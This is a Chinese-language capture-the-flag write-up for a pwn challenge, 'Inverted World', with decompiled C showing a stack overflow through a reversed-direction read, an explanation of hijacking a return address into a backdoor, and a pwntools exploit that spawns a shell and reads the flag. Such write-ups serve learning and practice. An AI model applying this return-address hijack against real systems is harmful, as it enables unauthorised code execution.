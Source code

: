 # **Inverted World**

## **题目分析**

checksec之后发现未开启pie，开启了canary。

```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[255]; // [rsp+0h] [rbp-110h] BYREF
  _BYTE v5[17]; // [rsp+FFh] [rbp-11h] BYREF

  *(_QWORD *)&v5[9] = __readfsqword(0x28u);
  init(argc, argv, envp);
  table();
  write(0, "root@AkyOI-VM:~# ", 0x12uLL);
  read(0, v5, 0x512uLL);  //这里实际是自定义的_read函数，实现和read函数相反方向的输入
  write(1, buf, 0x100uLL);
  puts(byte_402509);
  puts("??? What's wrong with the terminal?");
  return 0;
}
```

main函数的read存在栈溢出，但是这个read函数是自定义的（源码中命名函数名为_read来实现的）。

_read实现的是和正常read相反方向进行输入，我们这里输入的长度0x512明显大于255，可以写到低地址的栈帧的东西，我们劫持位于低地址的_read函数的返回地址到backdoor中间的部分（因为劫持到开头过不了检测）。

反向输入“sh”即可执行system("sh")拿到shell。

关于canary：因为是反向输入的，只要不多写东西就不会修改到canary，自然就不用故意绕过canary。

## **Exp**

```Python
from pwn import*

context.log_level='debug'
context(arch='amd64',os='linux')
context.terminal=['tmux','splitw','-h']

p=remote('???.???.???.???',?????)

payload=b'a'*0x100
p.sendline(payload+p64(0x040137C)[::-1])
p.sendlineafter("root@AkyOI-VM:~#","hs")
p.sendline("cat flag")
p.interactive()
```